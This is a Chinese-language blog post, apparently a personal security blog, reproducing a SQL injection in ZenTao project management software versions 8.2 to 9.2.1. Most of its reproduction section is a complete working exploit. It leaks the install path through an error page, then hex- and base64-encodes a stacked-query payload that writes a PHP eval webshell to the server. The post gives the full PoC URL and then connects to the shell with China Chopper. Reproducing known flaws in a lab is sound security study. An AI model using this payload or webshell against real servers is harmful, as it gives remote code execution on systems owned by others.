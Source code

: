 ```yaml
---
title: 禅道SQL注入-漏洞复现   --雷豹000  
layout: mypost
categories: [漏洞复现]
---
```


# 禅道SQL注入-漏洞复现    

## 前言

禅道项目管理系统是一款常见的项目管理系统，无论是在渗透测试项目中，还是在攻防对抗中可能会经常遇到。因此，研究和复现禅道项目管理系统历史版本漏洞，具有一定价值意义。    <!--主要是阐述存在的问题，将问题描述清楚，可适当引出解决方案-->

## 漏洞简介

受影响的版本：禅道8.2-9.2.1

环境下载地址：https://www.zentao.net/download/80035.html

## 复现详情

首先，在服务器上搭建禅道项目管理系统，搭建完成后，访问地址，页面如下 

![Inked图1_LI](Inked图1_LI.jpg)

访问http://x.x.x.x./zentao/index.php?mode=getconfig 获取版本信息 该版本存在漏洞

![Inked图2_LI](Inked图2_LI.jpg)

随便访问一个不存在的路径http://x.x.x.x/zentao/111111 ，报错显示文件路径信息

![Inked图3_LI](Inked图3_LI.jpg)

根据报错回显的路径，构造将一句话木马写入文件中的SQL语句

 `select'<?php @eval($_POST[1])?>' into outfile'C:/Users/Administrator/Downloads/xampp/zentao/www/bb.php'`

ASCIIhex加密》

`73656c656374273c3f70687020406576616c28245f504f53545b315d293f3e2720696e746f206f757466696c6527433a2f55736572732f41646d696e6973747261746f722f446f776e6c6f6164732f78616d70702f7a656e74616f2f7777772f62622e70687027`

继续将加密的语句放入下列语句中  前面加上0x

`{"orderBy":"order limit 1;SET @SQL=0x73656c656374273c3f70687020406576616c28245f504f53545b315d293f3e2720696e746f206f757466696c6527433a2f55736572732f41646d696e6973747261746f722f446f776e6c6f6164732f78616d70702f7a656e74616f2f7777772f62622e70687027;PREPARE pord FROM @SQL;EXECUTE pord;-- -","num":"1,1","type":"openedbyme"}`

base64加密》

`eyJvcmRlckJ5Ijoib3JkZXIgbGltaXQgMTtTRVQgQFNRTD0weDczNjU2YzY1NjM3NDI3M2MzZjcwNjg3MDIwNDA2NTc2NjE2YzI4MjQ1ZjUwNGY1MzU0NWIzMTVkMjkzZjNlMjcyMDY5NmU3NDZmMjA2Zjc1NzQ2NjY5NmM2NTI3NDMzYTJmNTU3MzY1NzI3MzJmNDE2NDZkNjk2ZTY5NzM3NDcyNjE3NDZmNzIyZjQ0NmY3NzZlNmM2ZjYxNjQ3MzJmNzg2MTZkNzA3MDJmN2E2NTZlNzQ2MTZmMmY3Nzc3NzcyZjYyNjIyZTcwNjg3MDI3O1BSRVBBUkUgcG9yZCBGUk9NIEBTUUw7RVhFQ1VURSBwb3JkOy0tIC0iLCJudW0iOiIxLDEiLCJ0eXBlIjoib3BlbmVkYnltZSJ9`

构造poc地址：

`http://x.x.x.x/zentao/index.php?m=block&f=main&mode=getblockdata&blockid=case&param=eyJvcmRlckJ5Ijoib3JkZXIgbGltaXQgMTtTRVQgQFNRTD0weDczNjU2YzY1NjM3NDI3M2MzZjcwNjg3MDIwNDA2NTc2NjE2YzI4MjQ1ZjUwNGY1MzU0NWIzMTVkMjkzZjNlMjcyMDY5NmU3NDZmMjA2Zjc1NzQ2NjY5NmM2NTI3NDMzYTJmNTU3MzY1NzI3MzJmNDE2NDZkNjk2ZTY5NzM3NDcyNjE3NDZmNzIyZjQ0NmY3NzZlNmM2ZjYxNjQ3MzJmNzg2MTZkNzA3MDJmN2E2NTZlNzQ2MTZmMmY3Nzc3NzcyZjYyNjIyZTcwNjg3MDI3O1BSRVBBUkUgcG9yZCBGUk9NIEBTUUw7RVhFQ1VURSBwb3JkOy0tIC0iLCJudW0iOiIxLDEiLCJ0eXBlIjoib3BlbmVkYnltZSJ9`

访问地址，添加referer

![Inked图4_LI](Inked图4_LI.jpg)

此时一句话木马已写入，在服务器文件中可查看到

![图5](图5.png)

中国菜刀连接http://x.x.x.x/zentao/bb.php  密码 1 ，连接成功

![Inked图6_LI](Inked图6_LI.jpg)

